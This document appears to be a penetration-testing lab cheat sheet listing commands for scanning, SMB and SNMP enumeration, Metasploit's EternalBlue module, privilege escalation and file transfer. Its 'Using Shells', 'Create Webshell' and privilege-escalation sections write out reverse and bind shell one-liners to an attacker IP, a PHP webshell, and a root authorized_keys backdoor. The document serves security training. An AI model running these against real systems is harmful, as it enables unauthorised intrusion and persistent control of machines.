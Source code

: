 # Command Reference

## Basic Tools

### General

- **sudo openvpn user.ovpn**: Connect to VPN
- **ifconfig/ip a**: Show our IP address
- **netstat -rn**: Show networks accessible via the VPN
- **ssh user@10.10.10.10**: SSH to a remote server
- **ftp 10.129.42.253**: FTP to a remote server

### tmux

- **tmux**: Start tmux
- **ctrl+b**: tmux: default prefix
- **prefix c**: tmux: new window
- **prefix 1**: tmux: switch to window (1)
- **prefix shift+%**: tmux: split pane vertically
- **prefix shift+"**: tmux: split pane horizontally

### Vim

- **vim file**: vim: open file with vim
- **esc+i**: vim: enter insert mode
- **esc**: vim: back to normal mode
- **x**: vim: Cut character
- **dw**: vim: Cut word
- **dd**: vim: Cut full line
- **yw**: vim: Copy word
- **yy**: vim: Copy full line
- **p**: vim: Paste
- **:1**: vim: Go to line number 1.
- **:w**: vim: Write the file 'i.e. save'
- **:q**: vim: Quit
- **:q!**: vim: Quit without saving
- **:wq**: vim: Write and quit

## Pentesting

### Service Scanning

- **nmap 10.129.42.253**: Run nmap on an IP
- **nmap -sV -sC -p- 10.129.42.253**: Run an nmap script scan on an IP
- **locate scripts/citrix**: List various available nmap scripts
- **nmap --script smb-os-discovery.nse -p445 10.10.10.40**: Run an nmap script on an IP
- **netcat 10.10.10.10 22**: Grab banner of an open port

### SMB Operations

- **smbclient -N -L \\10.129.42.253**: List SMB Shares
- **smbclient \\10.129.42.253\users**: Connect to an SMB share

### SNMP Operations

- **snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0**: Scan SNMP on an IP
- **onesixtyone -c dict.txt 10.129.42.254**: Brute force SNMP secret string

## Web Enumeration

- **gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt**: Run a directory scan on a website
- **gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt**: Run a sub-domain scan on a website
- **curl -IL https://www.inlanefreight.com**: Grab website banner
- **whatweb 10.10.10.121**: List details about the webserver/certificates
- **curl 10.10.10.121/robots.txt**: List potential directories in robots.txt

### Public Exploits

- **searchsploit openssh 7.2**: Search for public exploits for a web application
- **msfconsole**: Start the Metasploit Framework
- **search exploit eternalblue**: Search for public exploits in MSF
- **use exploit/windows/smb/ms17_010_psexec**: Start using an MSF module
- **show options**: Show required options for an MSF module
- **set RHOSTS 10.10.10.40**: Set a value for an MSF module option
- **check**: Test if the target server is vulnerable
- **exploit**: Run the exploit on the target server if vulnerable

### Using Shells

- **nc -lvnp 1234**: Start a nc listener on a local port
- **bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'**: Send a reverse shell from the remote server
- **rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f**: Another command to send a reverse shell from the remote server
- **rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f**: Start a bind shell on the remote server
- **nc 10.10.10.1 1234**: Connect to a bind shell started on the remote server

### Upgrade Shell TTY

- **python -c 'import pty; pty.spawn("/bin/bash")'**: Upgrade shell TTY (1)
- **ctrl+z then stty raw -echo then fg then enter twice**: Upgrade shell TTY (2)

### Create Webshell

- **echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php**: Create a webshell PHP file
- **curl http://SERVER_IP:PORT/shell.php?cmd=id**: Execute a command on an uploaded webshell

### Privilege Escalation

- **./linpeas.sh**: Run linpeas script to enumerate remote server
- **sudo -l**: List available sudo privileges
- **sudo -u user /bin/echo Hello World!**: Run a command with sudo
- **sudo su -**: Switch to root user (if we have access to sudo su)
- **sudo su user -**: Switch to a user (if we have access to sudo su)
- **ssh-keygen -f key**: Create a new SSH key
- **echo "ssh-rsa AAAAB...SNIP...M= user@parrot >> /root/.ssh/authorized_keys**: Add the generated public key to the user
- **ssh root@10.10.10.10 -i key**: SSH to the server with the generated private key

### Transferring Files

- **python3 -m http.server 8000**: Start a local webserver
- **wget http://10.10.14.1:8000/linpeas.sh**: Download a file on the remote server from our local machine
- **curl http://10.10.14.1:8000/linenum.sh -o linenum.sh**: Download a file on the remote server from our local machine
- **scp linenum.sh user@remotehost:/tmp/linenum.sh**: Transfer a file to the remote server with SCP (requires SSH access)

### Convert Files

- **base64 shell -w 0**: Convert a file to base64
- **echo f0VMR...SNIO...InmDwU | base64 -d > shell**: Convert a file from base64 back to its original
- **md5sum shell**: Check the file's md5sum to ensure it converted correctly
